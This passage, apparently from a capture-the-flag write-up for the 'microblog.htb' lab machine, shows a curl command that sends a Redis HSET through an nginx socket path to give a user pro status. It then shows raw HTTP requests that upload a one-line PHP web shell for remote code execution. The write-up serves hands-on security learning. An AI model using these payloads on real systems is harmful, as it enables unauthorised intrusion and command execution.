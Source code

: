 from this [article](https://exploit-notes.hdks.org/exploit/database/redis-pentesting/) we can set our user to be pro user through redis socket with following command:

```bash
# HSET <key> <field> <value> 
# double encoding

curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:tester%20pro%20true%20/abc"
```

**ignore** the error response, back to burpsuite and we can upload file 

```bash
POST /edit/index.php HTTP/1.1
Host: tester.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://tester.microblog.htb
DNT: 1
Connection: close
Referer: http://tester.microblog.htb/edit/
Cookie: username=6tgaipupd3d0t9d2om0f7rfhe1
Upgrade-Insecure-Requests: 1

id=/var/www/microblog/tester/uploads/test.txt&header=rce
```

![](/assets/img/format/11.png)

inject **RCE** and given name payload.php 

```bash
POST /edit/index.php HTTP/1.1
Host: tester.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://tester.microblog.htb
DNT: 1
Connection: close
Referer: http://tester.microblog.htb/edit/
Cookie: username=6tgaipupd3d0t9d2om0f7rfhe1
Upgrade-Insecure-Requests: 1

id=/var/www/microblog/tester/uploads/payload.php&header=<?php+system($_GET['0']);?>
```
